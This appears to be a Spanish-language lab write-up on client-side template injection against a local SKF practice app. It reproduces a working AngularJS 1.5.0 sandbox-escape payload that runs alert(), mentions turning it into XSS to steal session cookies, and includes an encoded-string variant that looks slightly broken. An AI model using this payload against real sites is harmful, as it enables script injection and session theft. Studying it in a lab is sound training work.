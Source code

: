 ```yaml
---
title: "[Lab] Client-Side Template Injection (CSTI)"
date: 2023-12-25
categories: [OWASPTop10]
tags: [owasptop10, hacking, python]
---
```




# Client-Side Template Injection (CSTI)



## Requerimientos

```bash
apt install python2
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
python2 get-pip.py
rm get-pip.py
```

## Instalación

```bash
git clone https://github.com/blabla1337/skf-labs
pip2 install -r requirements.txt
python2 CSTI.py
```

Esto lo que hará es correr un servidor web de forma local sin contenedores:

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection CSTI/Untitled.png)

La web se ve de esta forma:

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection CSTI/Untitled 1.png)

Este lab sirve para entender el concepto de cómo funciona un CSTI más que para un escenario real.

Al ingresar un input, por ejemplo, la palabra “Hola”, esta se vería reflejada en el servidor:

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection CSTI/Untitled 2.png)

A comparación con el SSTI, la idea es la misma, inyectar un input para verlo reflejado en el servidor pero la diferencia radica en que la inyección en este caso se ve reflejada o la ejecuta el navegador del cliente y no el servidor en sí por lo que aquí la ejecución de comandos para ver archivos internos del servidor no aplican pero la idea de este ataque es derivarlo a un XSS para obtener algún tipo de información valiosa del usuario como cookies de sesión entre otras cosas.

En este caso se puede utilizar el repositorio de PayloadAllTheThings, en este caso se puede ver en la web que se está utilizando una versión en particular de Angularjs, la 1.5.0 por lo que se buscarán payloads para esa versión:

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection CSTI/Untitled 3.png)

En este caso, el payload que se utilizará es el siguiente:

```javascript
/*
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
*/
```

Este payload, está haciendo un “alert(1) de forma que cuando esto se ingrese en la web, mostrará una alerta con valor 1”:

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection CSTI/Untitled 4.png)

También se puede representar strings por ejemplo la palabra “PWNED”, en este caso se pasará el string a decimal para que no haya problemas de interpretación y para esto se utilizará python:

```bash
sentence = "PWNED"
for character in sentence:
	print(ord(character))
```

*ord() permite pasar los caracteres a decimal.*

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection CSTI/Untitled 5.png)

Luego estos caracteres de pueden tratar para representarlos en una misma línea:

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection CSTI/Untitled 6.png)

Ahora esto se puede incluir en el payload

```javascript
/*
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(80,87,78,69,68)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
*/
```

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection CSTI/Untitled 7.png)
